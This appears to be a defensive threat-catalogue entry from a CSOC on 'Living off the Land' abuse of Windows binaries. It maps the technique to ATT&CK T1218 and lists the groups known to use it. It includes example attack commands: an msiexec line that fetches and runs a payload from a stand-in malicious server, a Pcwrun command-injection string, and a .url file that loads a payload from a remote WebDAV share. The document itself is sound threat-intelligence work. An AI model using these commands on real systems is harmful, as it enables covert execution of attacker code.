

# Leverage Windows Utilities for Proxy Execution of Malicious Code

## Metadata

- **UUID**: `426a0ab5-66e7-4149-82b0-6357a1cf4b4b`
- **Schema**: `threat::1.0`
- **Version**: `1`
- **Created**: `2024-11-04`
- **Modified**: `2024-11-04`
- **TLP**: clear (`TLP:CLEAR`)
- **Organisation**: EC DIGIT CSOC (`56b0a0f0-b0bc-47d9-bb46-02f80ae2065a`)

## References
### Public
- **1**: [https://lolbas-project.github.io/](https://lolbas-project.github.io/)
- **2**: [https://www.whitecloudsecurity.com/news/2025/June/Stealth-Falcon-Living-off-the-Land-Attack-Zero-Day/](https://www.whitecloudsecurity.com/news/2025/June/Stealth-Falcon-Living-off-the-Land-Attack-Zero-Day/)

## Description
Threat actors frequently exploit legitimate Windows utilities to execute malicious 
code covertly, a technique known as "Living off the Land" (LotL). 
By using trusted system binaries, attackers can bypass security measures that focus 
on untrusted or unusual processes, thereby reducing the likelihood of detection.

### 1. Ieexec.exe

**Description**: A utility that executes .NET programs. Threat actors can use ieexec.exe 
to run malicious executables under the guise of Internet Explorer components.

Example:

```
ieexec.exe C:\path\to\malicious.exe
```

### 2. Ie4uinit.exe

**Description**: Initializes user-specific settings for Internet Explorer. 
Can be misused to execute INF files.

Example:

```
ie4uinit.exe -UserIconConfig
```

### 3. Msiexec.exe

**Description**: Used for installing, modifying, and performing operations 
on Windows Installer packages. Threat actors can execute malicious MSI packages or scripts.

Example:

```
msiexec.exe /q /i http://malicious-server/payload.msi
```

### 4. Pcwrun.exe

**Description**: Part of the Performance Counters for Windows. 
It can be exploited to run scripts or executables under certain conditions.

Example:

```
Pcwrun.exe /../../$(calc).exe
```

### 5. DevToolsLauncher.exe

**Description**: Associated with Visual Studio development tools. 
It can be abused to execute code or scripts in the context of development environments.

Example:

> Execute any binary with given arguments and it will call developertoolssvc.exe. 
developertoolssvc is actually executing the binary.

```
devtoolslauncher.exe LaunchForDeploy [PATH_TO_BIN] "argument here" test
```

### 6. Iediagcmd.exe

**Description**: Diagnostics Utility for Internet Explorer
It can be used to execute binary pre-planted.

Example:

A .url file is sent to the victim or planted on disk.
It sets the WorkingDirectory to \\attacker.webdav.server\share
iediagcmd.exe tries to launch other tools like route.exe, 
netsh.exe, or CustomShellHost.exe.

```
[InternetShortcut]
URL=C:\\Program Files\\Internet Explorer\\iediagcmd.exe
WorkingDirectory=\\\\192.168.8.200@80\\payload
IconFile=C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe
IconIndex=13
ShowCommand=7
```

## Criticality
**Medium** - A Medium priority incident may affect public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence.

## Terrain
> **Threat actors must have access to a Windows system with user-level privileges 
where Windows utilities are available.

Domains: Enterprise
Targets: Workstations, Laptop, Virtual Machines, Public-Facing Servers
Platforms: Windows**

## Threat Assessment
| Dimension | Assessment | Description |
| --- | --- | --- |
| Severity | Significant incident | A cyber attack which has a serious impact on a large organisation or on wider / local government, or which poses a considerable risk to central government or (inter)national essential services. |
| Impact | Data Breach; Business disruption; Reputational Damages | - |
| Leverage | Elevation of privilege; Tampering; Information Disclosure | - |
| Viability | Likely | Probable (probably) - 55-80% |
| Kill Chain | Execution | Techniques that result in execution of attacker-controlled code on a local or remote system. |

## Actors
| Actor | ID | Source | Description |
| --- | --- | --- | --- |
| [[Enterprise] APT29](https://attack.mitre.org/groups/G0016) | `att&ck::G0016` | ('att&ck',) | [APT29](https://attack.mitre.org/groups/G0016) is threat group that has been attributed to Russia's Foreign Intelligence Service (SVR).(Citation: White House Imposing Costs RU Gov April 2021)(Citation: UK Gov Malign RIS Activity April 2021) They have operated since at least 2008, often targeting government networks in Europe and NATO member countries, research institutes, and think tanks. [APT29](https://attack.mitre.org/groups/G0016) reportedly compromised the Democratic National Committee starting in the summer of 2015.(Citation: F-Secure The Dukes)(Citation: GRIZZLY STEPPE JAR)(Citation: Crowdstrike DNC June 2016)(Citation: UK Gov UK Exposes Russia SolarWinds April 2021)  In April 2021, the US and UK governments attributed the [SolarWinds Compromise](https://attack.mitre.org/campaigns/C0024) to the SVR; public statements included citations to [APT29](https://attack.mitre.org/groups/G0016), Cozy Bear, and The Dukes.(Citation: NSA Joint Advisory SVR SolarWinds April 2021)(Citation: UK NSCS Russia SolarWinds April 2021) Industry reporting also referred to the actors involved in this campaign as UNC2452, NOBELIUM, StellarParticle, Dark Halo, and SolarStorm.(Citation: FireEye SUNBURST Backdoor December 2020)(Citation: MSTIC NOBELIUM Mar 2021)(Citation: CrowdStrike SUNSPOT Implant January 2021)(Citation: Volexity SolarWinds)(Citation: Cybersecurity Advisory SVR TTP May 2021)(Citation: Unit 42 SolarStorm December 2020) |
| UNC2452 | `misp::2ee5ed7a-c4d0-40be-a837-20817474a15b` | ('misp',) | Reporting regarding activity related to the SolarWinds supply chain injection has grown quickly since initial disclosure on 13 December 2020. A significant amount of press reporting has focused on the identification of the actor(s) involved, victim organizations, possible campaign timeline, and potential impact. The US Government and cyber community have also provided detailed information on how the campaign was likely conducted and some of the malware used.  MITRE’s ATT&CK team — with the assistance of contributors — has been mapping techniques used by the actor group, referred to as UNC2452/Dark Halo by FireEye and Volexity respectively, as well as SUNBURST and TEARDROP malware. |
| [[Enterprise] FIN7](https://attack.mitre.org/groups/G0046) | `att&ck::G0046` | ('att&ck',) | [FIN7](https://attack.mitre.org/groups/G0046) is a financially-motivated threat group that has been active since 2013. [FIN7](https://attack.mitre.org/groups/G0046) has primarily targeted the retail, restaurant, hospitality, software, consulting, financial services, medical equipment, cloud services, media, food and beverage, transportation, and utilities industries in the U.S. A portion of [FIN7](https://attack.mitre.org/groups/G0046) was run out of a front company called Combi Security and often used point-of-sale malware for targeting efforts. Since 2020, [FIN7](https://attack.mitre.org/groups/G0046) shifted operations to a big game hunting (BGH) approach including use of [REvil](https://attack.mitre.org/software/S0496) ransomware and their own Ransomware as a Service (RaaS), Darkside. FIN7 may be linked to the [Carbanak](https://attack.mitre.org/groups/G0008) Group, but there appears to be several groups using [Carbanak](https://attack.mitre.org/software/S0030) malware and are therefore tracked separately.(Citation: FireEye FIN7 March 2017)(Citation: FireEye FIN7 April 2017)(Citation: FireEye CARBANAK June 2017)(Citation: FireEye FIN7 Aug 2018)(Citation: CrowdStrike Carbon Spider August 2021)(Citation: Mandiant FIN7 Apr 2022) |
| FIN7 | `misp::00220228-a5a4-4032-a30d-826bb55aa3fb` | ('misp',) | Groups targeting financial organizations or people with significant financial assets. |
| [[Enterprise] APT38](https://attack.mitre.org/groups/G0082) | `att&ck::G0082` | ('att&ck',) | [APT38](https://attack.mitre.org/groups/G0082) is a North Korean state-sponsored threat group that specializes in financial cyber operations; it has been attributed to the Reconnaissance General Bureau.(Citation: CISA AA20-239A BeagleBoyz August 2020) Active since at least 2014, [APT38](https://attack.mitre.org/groups/G0082) has targeted banks, financial institutions, casinos, cryptocurrency exchanges, SWIFT system endpoints, and ATMs in at least 38 countries worldwide. Significant operations include the 2016 Bank of Bangladesh heist, during which [APT38](https://attack.mitre.org/groups/G0082) stole $81 million, as well as attacks against Bancomext (Citation: FireEye APT38 Oct 2018) and Banco de Chile (Citation: FireEye APT38 Oct 2018); some of their attacks have been destructive.(Citation: CISA AA20-239A BeagleBoyz August 2020)(Citation: FireEye APT38 Oct 2018)(Citation: DOJ North Korea Indictment Feb 2021)(Citation: Kaspersky Lazarus Under The Hood Blog 2017)  North Korean group definitions are known to have significant overlap, and some security researchers report all North Korean state-sponsored cyber activity under the name [Lazarus Group](https://attack.mitre.org/groups/G0032) instead of tracking clusters or subgroups. |
| Lazarus Group | `misp::68391641-859f-4a9a-9a1e-3e5cf71ec376` | ('misp',) | Since 2009, HIDDEN COBRA actors have leveraged their capabilities to target and compromise a range of victims; some intrusions have resulted in the exfiltration of data while others have been disruptive in nature. Commercial reporting has referred to this activity as Lazarus Group and Guardians of Peace. Tools and capabilities used by HIDDEN COBRA actors include DDoS botnets, keyloggers, remote access tools (RATs), and wiper malware. Variants of malware and tools used by HIDDEN COBRA actors include Destover, Duuzer, and Hangman. |

## ATT&CK Techniques
| Technique | Name | Description |
| --- | --- | --- |
| `T1218` | [System Binary Proxy Execution](https://attack.mitre.org/techniques/T1218) | Adversaries may bypass process and/or signature-based defenses by proxying execution of malicious content with signed, or otherwise trusted, binaries. Binaries used in this technique are often Microsoft-signed files, indicating that they have been either downloaded from Microsoft or are already native in the operating system.(Citation: LOLBAS Project) Binaries signed with trusted digital certificates can typically execute on Windows systems protected by digital signature validation. Several Microsoft signed binaries that are default on Windows installations can be used to proxy execution of other files or commands.  Similarly, on Linux systems adversaries may abuse trusted binaries such as <code>split</code> to proxy execution of malicious commands.(Citation: split man page)(Citation: GTFO split) |

## Chaining

### Chaining details
#### implements -> Abuse of Windows Utilities (`atomicity::implements`)
This TVM is implementing the bigger TVM : Abuse of Windows Utilities

- **Target UUID**: `d5039f2c-9fcc-4ba3-ad6a-da8c891ba745`
